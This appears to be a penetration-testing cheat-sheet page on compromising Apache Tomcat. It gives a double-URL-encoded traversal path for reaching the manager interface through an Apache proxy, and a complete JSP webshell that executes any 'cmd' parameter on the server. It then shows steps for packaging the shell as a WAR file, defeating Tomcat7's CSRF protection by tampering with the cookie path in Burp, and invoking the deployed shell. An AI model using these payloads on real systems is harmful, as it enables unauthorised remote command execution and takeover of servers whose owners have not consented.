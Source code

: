 # Tomcat

## Tomcat

JSP or servlet

### Bypass apache proxy

`/examples/jsp/%252e%252e/%252e%252e/manager/html`

### JSP webshell

```text
<FORM METHOD=GET ACTION='test.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

#### Create a war archive

```csharp
mkdir test
mv test.jsp test
cd test

/usr/lib/jvm/java-14-openjdk/bin/./jar -cvf ../test.war *

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=lcd
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)
                                                            
```

### Bypass CSRF 

### Tomcat7 is using a CSRF protection in upload field

Upload the file and click on deploy and capture the request .

#### Modify the path 

`jsp/%252e%252e/manager/htm/`

![](../../.gitbook/assets/image%20%28229%29.png)

#### Capture the response in burp

![](../../.gitbook/assets/image%20%28159%29.png)

#### 

#### Modify the CSRF protection path \( / instead of /manager\) in the server response

* refresh the manager page to get the token



![](../../.gitbook/assets/image%20%28248%29.png)

* Modify the response

![](../../.gitbook/assets/image%20%28225%29.png)

```text
Set-Cookie: JSESSIONID=62FC9D661A6E815FCC2FE73B5B8DA686; Path=/; HttpOnly
```

* Modify the DOM path for Deploy

![](../../.gitbook/assets/image%20%2846%29.png)

### Access the webshell

```text
examples//%252e%252e/test/index.jsp?cmd=id
```

![](../../.gitbook/assets/image%20%28278%29%20%281%29.png)

